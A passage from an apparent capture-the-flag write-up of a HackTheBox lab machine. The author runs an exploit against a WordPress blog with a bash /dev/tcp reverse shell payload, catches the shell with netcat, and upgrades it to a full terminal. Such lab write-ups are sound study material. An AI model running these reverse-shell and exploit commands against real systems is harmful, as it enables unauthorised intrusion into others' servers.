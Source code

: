 I’ll run the exploit again, this time with a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```

oxdf@hacky$ uv run exploit.py http://blog.bigbang.htb 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
[*] The data:// wrapper works
[*] The php://filter/ wrapper works
[*] The zlib extension is enabled
[+] Exploit preconditions are satisfied
[*] Potential heaps: 0x7f1d73600040, 0x7f1d73400040, 0x7f1d73000040, 0x7f1d72c00040, 0x7f1d71e00040, 0x7f1d6f400040, 0x7f1d6ee00040, 0x7f1d6e400040, 0x7f1d6da00040 (using first)

     EXPLOIT  SUCCESS 

```

When it completes, I get a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.52 41526
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bf9a078a3627:/var/www/html/wordpress/wp-admin$ 

```

I’ll upgrade with the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@bf9a078a3627:/var/www/html/wordpress/wp-admin$ script /dev/null -c bash
<w/html/wordpress/wp-admin$ script /dev/null -c bash    
Script started, output log file is '/dev/null'.
www-data@bf9a078a3627:/var/www/html/wordpress/wp-admin$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            ‍reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@bf9a078a3627:/var/www/html/wordpress/wp-admin$ 

```

## Shell as shawking

### Enumeration

#### Container
